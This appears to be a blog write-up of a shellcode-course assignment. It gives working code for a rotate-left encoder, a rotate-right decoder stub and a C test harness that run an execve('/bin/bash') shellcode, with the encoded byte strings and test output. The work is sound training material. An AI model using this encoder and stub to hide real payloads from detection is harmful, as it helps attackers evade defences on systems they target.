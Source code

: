 ```yaml
---
title: SLAE64 Assignment 4 - ROL Encoder 
date: 2020-4-26
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE64.png
tags:
  - Assembly
  - Code
  - SLAE
  - Linux
  - x64
  - Shellcode
--- 
```

![](/assets/images/SLAE64.png)

# Overview
For the fourth assignment of the SLAE64 I created a Rotate Left (ROL) Encoder and a Rotate Right (ROR) decoder. The ROL encoder is a python program that rotates every byte of the payload to the left by 1 bit. The companion ROR decoder rotates every byte of the payload to the right by 1 bit, and then passes execution to the decoded payload. The example payload is an execve shellcode that spawns a bash shell.

# The Python Rotate Left (ROL) Encoder 
```python
#!/usr/bin/python
shellcode  = "\x48\x31\xf6"     # xor rsi, rsi
shellcode += "\x48\xf7\xe6"     # mul rsi          ; rdx&rax= 0x0
shellcode += "\x48\x31\xff"     # xor rdi, rdi
shellcode += "\x57"             # push rdi
shellcode += "\x48\x83\xc2\x68" # add rdx, 0x68
shellcode += "\x52"             # push rdx
shellcode += "\x48\xba\x2f\x62\x69\x6e\x2f\x62\x61\x73" # movabs rdx, 0x7361622f6e69622f ; "/bin/bas"
shellcode += "\x52"             # push rdx
shellcode += "\x48\x31\xd2"     # xor rdx, rdx
shellcode += "\x48\x89\xe7"     # mov rdi, rsp ; rdi = Pointer -> "/bin/bash"0x00
shellcode += "\xb0\x3b"         # mov al, 0x3b ; execve syscall number
shellcode += "\x0f\x05";        # syscall  ; call execve("/bin/bash", NULL, NULL)

encoded = ""
for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded += '0x'
        encoded += '%02x,' %x  # Add the rotated left hex to string
    else:
        encoded += '0x'        # No leftmost bit, just rotate
        encoded += '%02x,' %(x << 1)
print encoded+"0xaa"
print 'Len: %d' % len(bytearray(shellcode))
```  
+ The byte 0xaa is added to the end of the payload. This is how our ROR decoder will know it has reached the end of the payload.
## Encoding the Payload
```bash
root# python rotateLeftEncoder.py
0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
Len: 36
```

# The Rotate Right (ROR) Decoder
```asm
; Filename: rotateRightDecoder.nasm
; Author:   boku
global _start
section .text
_start:
  jmp short call_decoder ; 1. jump to where the shellcode string is
decoder:
  pop rsi                ; 3. Put string location in esi register
decode:
  ror byte [rsi], 1      ; 4. decode the byte by bitwise rotate right
  cmp byte [rsi], 0x55   ; 5. Is this the last byte? ror 0xaa, 1 = 0x55
  je Shellcode           ;    - If so jump into the payload and execute
  inc rsi                ; 6. Not end? Move forward 1 byte
  jmp short decode       ; 7. Lets decode the next byte
call_decoder:
  call decoder           ; 2. Put the mem location of the string on the stack
  Shellcode: db 0x90,0x62,0xed,0x90,0xef,0xcd,0x90,0x62,0xff,0xae,\
                0x90,0x07,0x85,0xd0,0xa4,0x90,0x75,0x5e,0xc4,0xd2,\
                0xdc,0x5e,0xc4,0xc2,0xe6,0xa4,0x90,0x62,0xa5,0x90,\
                0x13,0xcf,0x61,0x76,0x1e,0x0a,0xaa
```

## Getting the ROR Decoder Shellcode
```bash
root# cat getshellcode.sh
#!/bin/bash
asmFile=$1
noExt=$(echo $asmFile | sed 's/\..*$//g')
objFile=$noExt".o"
nasm -f elf64 $asmFile -o $objFile
for i in $(objdump -D $objFile | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo ''

root# ./getshellcode.sh rotateRightDecoder.asm
\xeb\x0d\x5e\xd0\x0e\x80\x3e\x55\x74\x0a\x48\xff\xc6\xeb\xf4\xe8\xee\xff\xff\xff\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa
```

# Testing the ROR Decoder
```c
// Shellcode Title:  Linux/x64 - ROL Encoded Execve Shellcode (57 bytes)
// Shellcode Author: Bobby Cooke
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x0d"              // jmp short call_decoder
// decoder:
"\x5e"                  // pop rsi = &String
// decode:
"\xd0\x0e"              // ror byte [rsi], 1
"\x80\x3e\x55"          // cmp byte [rsi], 0x55 - last byte? ror 0xaa, 1 = 0x55
"\x74\x0a"              // je Shellcode - End? Jump to shellcode!
"\x48\xff\xc6"          // inc rsi - Not end? move 2 next byte
"\xeb\xf4"              // jmp short decode - loop 2 decode next byte
// call_decoder:
"\xe8\xee\xff\xff\xff"  // call decoder // go 2 decode loop
// Execve(/bin/bash) ROL Encoded Shellcode
"\x90\x62\xed\x90\xef\xcd\x90\x62\xff\xae\x90\x07\x85"
"\xd0\xa4\x90\x75\x5e\xc4\xd2\xdc\x5e\xc4\xc2\xe6\xa4"
"\x90\x62\xa5\x90\x13\xcf\x61\x76\x1e\x0a\xaa";

int main()
{
        printf("Shellcode Length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}

```

### Final Test
```bash
root# gcc -m64 -z execstack -fno-stack-protector shellcode.c -o shellcode
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3067 pts/3    Ss     0:00 /bin/bash
root# ./shellcode
Shellcode Length:  57
root# echo $$ | xargs ps
  PID TTY      STAT   TIME COMMAND
 3501 pts/3    S      0:00 [bash]
```
